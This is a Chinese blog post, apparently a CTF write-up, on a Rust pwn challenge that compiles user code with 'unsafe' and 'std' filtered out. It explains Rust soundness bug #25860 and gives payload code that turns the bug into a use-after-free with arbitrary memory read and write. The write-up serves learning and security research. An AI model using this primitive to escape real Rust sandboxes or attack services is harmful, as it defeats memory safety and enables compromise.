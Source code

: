 ```yaml
---
title: Rust之殇——安全的边界
date: 2020-03-09 11:45:02
tags: 
  - "Rust"
  - "pwn" 
cover: /img/IMG_20200309_012646_444.jpg
---
```

说是“殇”，其实也没有多么严重，只不过想谈谈昨天做的一道Rust pwn。
## Rustpad
题目里给了一个cargo项目，文件结构大概是这样的
```
λ Doughnut source → tree
.
├── Cargo.lock
├── Cargo.toml
├── exp.py
├── lib
│   └── code
│       ├── Cargo.lock
│       ├── Cargo.toml
│       └── src
│           └── lib.rs
├── pwn
├── pwn.c
└── src
    ├── main.rs
    └── main.rs.tpl

4 directories, 10 files
```
再看看让这个项目跑起来的两个主要文件
```rust
// main.rs
#![no_std]

extern crate code;

use code::code;
fn main() {
    let flag = "";
    code();
}
```
```rust
// lib.rs
pub fn code(){}
```
pwn.c里大概是这么一套逻辑  
1. 创建随机文件夹/tmp/XXXXX，接着把整个项目复制过去
2. 修改./src/main.rs，把flag的值填到flag里面
3. 将payload写入./lib/code/src/lib.rs，顺便过滤了许多东西，包括unsafe、macro、std、use等
4. cargo run  

所以很显然，safe的rust又要unsafe了。

## Black Hole
根据作者的提示，看到了这样一个[issue](https://github.com/rust-lang/rust/issues/25860)，产生漏洞的大概是这样一段代码
```rust
static UNIT: &'static &'static () = &&();

fn foo<'a, 'b, T>(_: &'a &'b (), v: &'b T) -> &'a T {
    v
}

fn bad<'b, T>(x: &'b T) -> &'static T {
    let f: fn(_, &'b T) -> &'static T = foo;
    f(UNIT, x)
}
```
稍微分析一下吧，第一行创建了一个静态的全局变量`UNIT`，类型为`&'static &'static ()`，一个指向底类型的静态引用的静态引用，套了个娃。  
接着是一个模板函数`foo`，`foo`有三个模板参数`'a`,`'b`，`T`，重点关注两个生命周期参数。在接受的两个参数中，第一个是个引用的引用，根据生命周期的基本规则，内部引用的生命周期必定要长于外层的，因此这里隐式的要求了`'b:'a`。同时第二个参数`&'b T`被直接返回，`'b`会变成`'a`，发生了协变，很合理，没有毛病。  
但是在`bad`里，开始不对劲了起来。函数签名中表示我们接受了一个任意引用，返回了一个静态引用？这当然是可行的，因为很可能这个返回并没有参与协变与逆变。继续看，将`foo`绑定到了`f`上，这时，问题出现了。  
`f`的类型为`fn(_, &'b T) -> &'static T`，绑定的过程中抹去了第一个参数同时没有引发编译器报错！根据这个签名，我们可以推断出`foo`选择了`<'static, 'b , T>`进行了单态化，而这是不符合`'b:'a`规则的！纠正这个问题很简单，只需修改`foo`的定义，显式的给出类型约束
```rust
fn foo<'a, 'b, T>(_: &'a &'b (), v: &'b T) -> &'a T
where
    'b: 'a,
{
    v
}
```
当然，我们现在不是来修洞的。`f(UNIT, x)`的调用完成了开洞的最后一步，它将传入变量的引用无限延长后传了出去，只需调用这个函数，就能打破引用声明的要求。
```rust
let a: &String; //of course not.
{
    let x = String::from("NO! you shall not pass here!");
    a = &x;
  //    ^^ borrowed value does not live long enough
} // - `x` dropped here while still borrowed
println!("{}", a);
//             - borrow later used here
// BUT……
let a: &String;
{
    let x = String::from("NO! you shall not pass here!");
    a = bad(&x); // WOW!
}
println!("{}", a);
```
## 逃离伊甸
Rust依靠声明周期与type check为我们创造的safe伊甸园出现了漏洞，此刻便是出逃之时。  
很容易就能想到这样的方法，通过修改String中的指针指向来获得任意地址读的能力
```rust
pub fn code() {
    let mut pa;
    {
        let b = vec![
            String::from("aaaaa"),
            String::new(),
            String::new(),
            String::new(),
        ];
        pa = bad(&b);
    }
    {
        let x = "aaaaa".as_ptr() as i64;
        let b: Vec<i64> = vec![x - 0x30, 5, 5, 1, 0, 0, 1, 0, 0, 1, 0, 0];
        println!("{:?}", pa);
    }
}
```
在这里再说一说rust的胖指针，在`Vec`,`String`等中，实际上有三个成员变量，第一个是raw_ptr，第二个是length，第三个则是capacity，在这段payload中，先在堆区创建了长度为4的`Vec<String>`，size为0x60，接着在声明周期结束后被释放，这时我们可以通过创建长度为12的`Vec<i64>`来重新获得这块空间，并改写值，完成uaf。  
当然，在这样的情况下，不光任意读，任意写也是随意做到的。
```rust
pub fn code() {
    let pa: &mut Vec<Vec<i64>>;
    {
        let mut b = vec![
            Vec::<i64>::new(),
            Vec::<i64>::new(),
            Vec::<i64>::new(),
            Vec::<i64>::new(),
        ];
        pa = bad(&mut b);
    }
    {
        let x = "aaaaa".as_ptr() as i64;
        let b: Vec<i64> = vec![x, 5, 5, 1, 0, 0, 1, 0, 0, 1, 0, 0];
        println!("{:?}", pa);
        pa[0][0] = 1; // random write here
    }
}
```
此时我们便可以实现地址的任意读写。
## 吾心安处是吾乡
在安全的Rust里搞出洞来已经不是一次了，如何写出安全的代码，这其实是个很克氏的问题。  
我曾经遭遇过一次信仰危机，软件工程让我确实明白了写出正确的代码是一件多么困难的事情——这很爱手艺，我们面对着如山一般的未名存在，它散发着令人窒息的味道，无论如何打量也无法明白它是如何行动的。程序员在面对屎山的过程里逐渐失去理智，变得疯狂，写下来的东西也逐渐变得难以理解，屎山难越，谁悲失控之人？  
那个时刻，我几乎变成了一个不可知论者，悲观的对编程这一事件感到绝望。但我撑过去了，形式化验证告诉了我，“正确的代码是存在的”！我从此刻明白，在日益增长的疯狂里，类型论是我们所能安心依靠的最后一堵壁垒。  
但是一切总归不会那样顺利，类型安全的rust还是能被人找到边界，然后撬开果壳。或许类型就是这样的东西，易守难攻，我们背靠它的时候无比可靠，但是失去它之后它会成为刺向我们的最锋利的矛。  
在过去的两个月里，我写了很多C++，现在我开始看到曾经极客的背影了。类型是好的盾，但是丢了，也只不过是一个人接着走。